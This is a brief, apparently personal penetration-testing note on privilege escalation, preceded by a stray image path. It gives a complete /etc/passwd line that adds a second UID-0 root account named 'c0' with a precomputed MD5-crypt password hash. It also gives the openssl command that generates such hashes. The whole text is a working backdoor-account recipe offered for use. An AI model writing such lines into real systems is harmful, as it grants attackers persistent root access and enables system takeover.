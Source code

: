 # write new root user line to /etc/passwd
```
c0:$1$coyote0x$S9Aruc4H1kvDizg..ij81.:0:0:root:/root:/bin/bash
```

# generate password for /etc/passwd priv esc
```bash
openssl passwd -1 -salt coyote0x90
```
